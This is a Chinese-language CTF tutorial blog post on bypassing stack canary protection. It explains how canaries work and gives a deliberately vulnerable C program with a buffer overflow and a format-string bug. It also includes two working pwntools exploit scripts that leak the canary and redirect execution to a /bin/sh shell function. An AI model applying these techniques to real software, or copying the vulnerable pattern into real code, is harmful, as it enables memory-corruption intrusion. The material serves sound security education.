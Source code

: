 ```yaml
---
title: 绕过canary
date: 2021-03-28 19:44:41
tags:
    - pwn
    - canary
---
```


<!--more-->

# 介绍

我们知道，通常栈溢出的利用方式是通过溢出存在于栈上的局部变量，从而让多出来的数据覆盖 ebp、eip  等，从而达到劫持控制流的目的。栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让  shellcode 能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈底插入 cookie 信息，当函数真正返回的时候会验证 cookie 信息是否合法 (栈帧销毁前测试该值是否被改变)，如果不合法就停止程序运行 (栈溢出发生)。攻击者在覆盖返回地址的时候往往也会将 cookie  信息给覆盖掉，导致栈保护检查失败而阻止 shellcode 的执行，避免漏洞利用成功。在 Linux 中我们将 cookie 信息称为  Canary。

## Canary 实现原理

开启 Canary 保护的 stack 结构大概如下：（64位）

```
        High
        Address |                 |
                +-----------------+
                | args            |
                +-----------------+
                | return address  |
                +-----------------+
        rbp =>  | old ebp         |
                +-----------------+
      rbp-8 =>  | canary value    |
                +-----------------+
                | local variables |
        Low     |                 |
        Address

```

当程序启用 Canary 编译后，在函数序言部分会取 fs 寄存器 0x28 处的值，存放在栈中 %ebp-0x8 的位置。 这个操作即为向栈中插入 Canary 值，代码如下： 

```
mov    rax, qword ptr fs:[0x28]
mov    qword ptr [rbp - 8], rax
```

在函数返回之前，会将该值取出，并与 fs:0x28 的值进行异或。如果异或的结果为 0，说明 Canary 未被修改，函数会正常返回，这个操作即为检测是否发生栈溢出。

```
mov    rdx,QWORD PTR [rbp-0x8]
xor    rdx,QWORD PTR fs:0x28
je     0x4005d7 <main+65>
call   0x400460 <__stack_chk_fail@plt>
```

如果 Canary 已经被非法修改，此时程序流程会走到 `__stack_chk_fail`。`__stack_chk_fail` 也是位于 glibc 中的函数，默认情况下经过 ELF 的延迟绑定，定义如下。

```
eglibc-2.19/debug/stack_chk_fail.c

void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

这意味可以通过劫持 `__stack_chk_fail` 的 got 值劫持流程或者利用 `__stack_chk_fail` 泄漏内容

## Canary 绕过

### 泄露栈中的 Canary[¶](https://ctf-wiki.org/pwn/linux/user-mode/mitigation/canary/#canary_4)

Canary 设计为以字节 `\x00` 结尾，本意是为了保证 Canary 可以截断字符串。 泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的  Canary 部分。 这种利用方式需要存在合适的输出函数，并且可能需要第一溢出泄露 Canary，之后再次溢出控制执行流程。

#### 利用示例 [¶](https://ctf-wiki.org/pwn/linux/user-mode/mitigation/canary/#_3)

存在漏洞的示例源代码如下:

```
// ex2.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void getshell(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
void vuln() {
    char buf[100];
    for(int i=0;i<2;i++){
        read(0, buf, 0x200);
        printf(buf);
    }
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

编译为 32bit 程序并关闭 PIE 保护 （默认开启 NX，ASLR，Canary 保护）

```
$ gcc -m32 -no-pie ex2.c -o ex2
```

首先通过覆盖 Canary 最后一个 `\x00` 字节来打印出 4 位的 Canary 之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

####  EXP1

```
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa#代码中压入了100个A和回车，回车将0x00覆盖，
							#回车的ascii码为10，10的十六进制就是0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```

以上是CTFwiki给的实例，其实还可以通过格式化字符串泄露canary的值

就用上面的例子，用ida打开，找到它的溢出点read的地址

![image-20220328195217412](https://s2.loli.net/2022/03/28/XLcYd19MIOWDZ3l.png)

gdb中在该处下断点运行

![image-20220328195249208](https://s2.loli.net/2022/03/28/uUpez4Yv3cdKxZJ.png)

当我们输入n，输入一连串的aaaaa的时候，看一下栈

![image-20220328195456487](https://s2.loli.net/2022/03/28/Nk3YJt6ESyRvDwz.png)

![image-20220328200451335](https://s2.loli.net/2022/03/28/1ibQNCdnDt7Jogy.png)

可以看到以00位标志结尾的就是canary值，它距离栈底ebp有0xc距离

我们可以用pwntools的一个工具fmtarg 快速计算canary的偏移

![image-20220328200013667](https://s2.loli.net/2022/03/28/U4nuyzK9WTxYiht.png)

偏移是31，可以写EXP了

#### EXP2

```
# -*-coding:utf-8 -*-
from pwn import *
context.log_level='debug'
p=process('./canary')
get_shell = ELF("./canary").sym["getshell"]
p.sendlineafter("Hello Hacker!\n","%31$x")
canary_addr=int(p.recv(8),16)
log.info("Canary:"+hex(canary_addr))
payload = "a"*100+p32(canary_addr)+"a"*12+p32(get_shell)
p.sendline(payload)
p.interactive()
#格式化字符串
```

可以看到格式化字符串是比较方便绕过canary保护的

